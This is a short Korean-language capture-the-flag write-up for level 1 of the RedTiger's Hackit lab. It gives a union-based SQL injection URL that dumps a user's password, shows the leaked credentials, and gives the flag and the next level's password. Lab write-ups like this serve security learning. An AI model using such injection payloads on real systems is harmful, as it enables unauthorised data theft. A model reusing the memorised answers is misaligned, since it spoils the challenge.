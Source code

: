 # [RedTiger’s Hackit] Level 1 - Writeup

## Union Based SQL Injection
Union Based SQL Injection으로 힌트에 제시된 테이블에서 `Hornoxe`라는 유저의 패스워드를 획득할 수 있다.

[https://redtiger.labs.overthewire.org/level1.php?cat=2+union+select+1,2,username,password+from+level1_users%23](https://redtiger.labs.overthewire.org/level1.php?cat=2+union+select+1,2,username,password+from+level1_users%23)
```
Hornoxe
thatwaseasy
```

___

## Answer

flag: `27cbddc803ecde822d87a7e8639f9315`

next level password: `4_is_not_random`